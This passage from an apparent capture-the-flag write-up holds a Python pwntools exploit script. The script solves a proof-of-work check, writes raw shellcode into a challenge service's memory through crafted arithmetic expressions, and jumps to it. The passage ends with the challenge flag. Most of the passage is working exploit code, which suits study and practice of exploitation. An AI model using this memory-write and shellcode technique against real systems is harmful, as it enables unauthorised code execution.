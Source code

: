 ```python

if not args.LOCAL:
    hash_challenge = io.recvline().split()
    lp("proof of work:", hash_challenge)
    if hash_challenge[0] == b'hashcash' and hash_challenge[1] == b'-mb28':
        response = subprocess.run([
            'hashcash',
            '-mb28',
            hash_challenge[2].decode(),
        ], capture_output=True).stdout
        io.send(response)

def send_js(value):
    io.sendafter(b"> ",value)
def recv_rs(is_log):
    io.recvuntil(b"\r\n",drop=True)
    data = ''
    if is_log:
        data = io.recvuntil(b"\n",drop=True)
    return data


shellcode = bytes.fromhex("b40290b00190b50090b60090b10290b28090bb007ecd13baf80389deaceeebfc90")

def write_to_mem(val,value):
    # dec_value = int.from_bytes(value,"little")
    payload = val+b'='+(str(value % 9)+"+9"*(value // 9)+"\n").encode()
    # lp(payload)
    send_js(payload)
    # lp(io.recvuntil(b"\r\n"))
    io.recvuntil(b"\r\n")
    

write_to_mem(b"a",0x7c7a)
write_to_mem(b'b',0x7ce3)
for i in range(0,len(shellcode),3):
    part =  shellcode[i:i+3]
    lp("sending",i,part[0].to_bytes(1,"little"),hex(int.from_bytes(part[1:],"little")))
    write_to_mem(part[0].to_bytes(1,"little"),int.from_bytes(part[1:],"little"))

send_js(b"b(0)")
lp(io.recvuntil(b"}"))
io.close()
```

# 0x7 flag

`kalmar{this_would_be_a_nice_addon_to_all_efi_shells_right?}`

# Reference
